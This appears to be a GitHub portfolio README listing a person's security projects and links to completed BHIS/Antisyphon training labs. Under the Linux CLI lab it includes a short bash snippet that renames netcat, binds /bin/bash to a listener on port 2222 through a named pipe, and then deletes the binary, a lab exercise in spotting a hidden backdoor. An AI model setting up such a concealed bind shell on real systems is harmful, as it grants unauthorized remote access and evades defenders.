 # All Projects

[Vulnerability Management Tenable](/Vulnerability%20Management%20Tenable)

[Password Strength Checker and Password Generator](/Password)

[EXIF data](/EXIF%20data)

[Subdomain Enumeration and Reconnaissance](/Subdomain%20Enumerator)

[Bypass Windows Login Screen](Bypass%20Windows%20Login%20Screen)

[Linux Login Bypass and Prevention](/Linux%20Login%20Bypass%20and%20Prevention)

[Caesar Cipher Encryptor and Decryptor](/Caesar%20Cipher%20Encryptor%20and%20Decryptor)

[LSB Steganography](/LSB%20Steganography)

[Linkedin Automated Messaging](/Linkedin%20Automated%20Messaging)

[Password Hash Cracker](/Password%20Hash%20Cracker)



## Getting Started in Security with BHIS and MITRE ATT&CK with John Strand by Antisyphon Training (Successfully finished practice labs)

[Lab 1: AppLocker](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/AppLocker/AppLocker.md)

[Lab 2: Password Cracking](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/PasswordCracking/PasswordCracking.md)

[Lab 3: Password Spraying](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/PasswordSpray/PasswordSpray.md)

[Lab 4: RITA](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/RITA/RITA.md)

[Lab 5: DeepBlueCLI](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/deepbluecli/DeepBlueCLI.md)

[Lab 6: Domain Log Review](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/DomainLogReview/DomainLogReview.md)

[Lab 7: Sysmon](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/Sysmon/Sysmon.md)

[Lab 8: Atomic Red Team and BlueSpawn](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/bluespawn/Bluespawn.md)

[Lab 9: Nmap](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/Nmap/Nmap.md)

[Lab 10: Web Testing](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/WebTesting/WebTesting.md)

[Lab 11: Nessus](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/nessus/Nessus.md)

[Lab 12: PingCastle and PlumHound](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/PingCastle.md)


## SOC Core Skills with John Strand by Antisyphon Training (Successfully finished practice labs)

[Lab 1: Wireshark](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/Wireshark/Wireshark.md)

[Lab 2: Linux CLI](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/LinuxCLI/LinuxCLI.md)


```bash
mv /nc ./notnetcat
mknod backpipe p
/bin/bash backpipe 0<backpipe | notnetcat -l 2222 1>backpipe

#Other Terminal
nc 10.10.104.64 2222
rm ./notnetcat

netcat gone but still works
cd /proc/11625
cp ./exe /tmp/backupexe
cd /tmp
strings ./backupexe | less
```

[Lab 3: Windows CLI](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/WindowsCLI/WindowsCLI.md)

[Lab 4: DeepBlueCLI](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/deepbluecli/DeepBlueCLI.md)

[Lab 5: FirewallLog](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/FirewallLog/FirewallLog.md)

[Lab 6: MemoryAnalysis(Volatility)](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/Memory/MemoryAnalysis(Volatility).md)

[Lab 7: RITA](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/RITA/RITA.md)

[Lab 8: DomainLogReview](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/DomainLogReview/DomainLogReview.md)

[Lab 9: Velociraptor](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/Velociraptor/Velociraptor.md)

[Lab 10: WebTesting](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/WebTesting/WebTesting.md)

